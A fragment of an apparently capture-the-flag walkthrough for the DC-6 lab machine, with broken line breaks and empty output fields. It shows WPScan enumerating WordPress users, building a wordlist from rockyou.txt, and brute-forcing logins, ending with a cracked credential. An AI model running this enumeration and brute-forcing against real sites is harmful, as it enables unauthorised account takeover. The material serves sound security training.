



3.1 Wpscan
a) Run the following command on your Kali Machine:
$wpscan
--url http
://
wordy
/
--enumerate p --enumerate t --enumerate u
Output:


b) Create a file “users” with the users names.
$gedit
users
Output:

c) Use the
hint
given by the author.
$cd
DC-6
$cat
/
usr
/
share
/
wordlists
/
rockyou.txt
|
grep
k01 > passwords.txt
d) Look for passwords.
$wpscan
--url wordy
/
-U users -P passwords.txt
Output:
[SUCCESS] - mark / helpdesk01
Index